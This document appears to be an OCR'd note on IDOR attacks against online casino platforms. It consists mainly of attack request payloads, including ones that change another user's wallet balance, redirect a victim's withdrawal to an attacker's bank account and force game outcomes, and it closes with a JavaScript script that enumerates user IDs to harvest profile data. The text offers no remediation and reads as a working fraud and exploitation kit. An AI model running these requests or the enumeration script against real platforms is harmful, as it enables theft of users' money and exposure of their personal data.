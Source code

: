 **Vulnerability:**
```javascript
// Vulnerable endpoint
PUT /api/users/{user_id}/profile
{
  "fullName": "New Name",
  "email": "new@email.com",
  "phone": "+1234567890"
}
```

**Casino Platform IDOR Locations:**

1. **Balance Manipulation**
```javascript
POST /api/wallet/update
{
  "userId": 123,  // Try other user IDs
  "balance": 999999
}
```

2. **Bet History Access**
```javascript
GET /api/bets/history?userId=123  // Enumerate user IDs
```

3. **Withdrawal Request**
```javascript
POST /api/withdraw
{
  "userId": 123,        // Victim ID
  "amount": 5000,
  "bankAccount": "attacker_account"
}
```

4. **Game Session Manipulation**
```javascript
POST /api/game/session
{
  "sessionId": "abc123",  // Try other sessions
  "userId": 456,          // Change user
  "outcome": "win"        // Manipulate result
}
```

**Testing Script:**
```javascript
// IDOR enumeration script
async function testIDOR(endpoint, startId, endId) {
    for(let id = startId; id <= endId; id++) {
        const response = await fetch(endpoint + id, {
            headers: {
                'Authorization': 'Bearer YOUR_TOKEN'
            }
        });
        
        if(response.status === 200) {
            const data = await response.json();
            console.log(`[IDOR] ID ${id}:`, data);
        }
    }
}

// Test user profiles
testIDOR('/api/users/', 1, 1000);

```